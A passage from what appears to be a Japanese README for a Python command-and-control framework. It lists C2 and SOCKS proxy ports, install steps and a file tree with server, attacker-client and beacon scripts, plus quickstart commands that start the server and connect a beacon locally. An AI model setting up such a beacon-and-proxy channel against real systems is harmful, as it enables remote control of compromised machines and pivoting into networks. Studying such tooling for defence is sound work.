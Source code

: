 ### 通信ポート
- **4444**: C2通信（Beacon ↔ サーバ、攻撃者 ↔ サーバ）
- **1080**: SOCKSプロキシ（攻撃者 → ターゲットネットワーク）

## 📋 システム要件

- **Python**: 3.7以上
- **OS**: Windows 10+、Linux（Ubuntu 18.04+、CentOS 7+）、macOS 10.14+
- **メモリ**: 最低512MB
- **ネットワーク**: TCP/UDP通信可能な環境

## 💾 インストール

### 1. リポジトリクローン
```bash
git clone https://github.com/your-repo/c2-framework.git
cd c2-framework
```

### 2. 依存関係確認
```bash
python3 --version  # 3.7以上であることを確認
```

### 3. ファイル構成確認
```
c2-framework/
├── updated_c2_server.py    # C2サーバ
├── attacker_client.py      # 攻撃者クライアント
├── lightweight_beacon.py   # Beacon
├── config_examples/        # 設定ファイル例
│   ├── config.txt
│   ├── stealth_config.txt
│   └── dev_config.txt
└── README.md
```

## 🔥 クイックスタート

### 学習環境での基本テスト

#### 1. C2サーバ起動
```bash
# ターミナル1: C2サーバ
python3 updated_c2_server.py --host 0.0.0.0 --c2-port 4444 --socks-port 1080
```

#### 2. Beacon接続（別マシンまたは別ターミナル）
```bash
# ターミナル2: Beacon
python3 lightweight_beacon.py -s 127.0.0.1 -p 4444 --beacon-id test_beacon
```
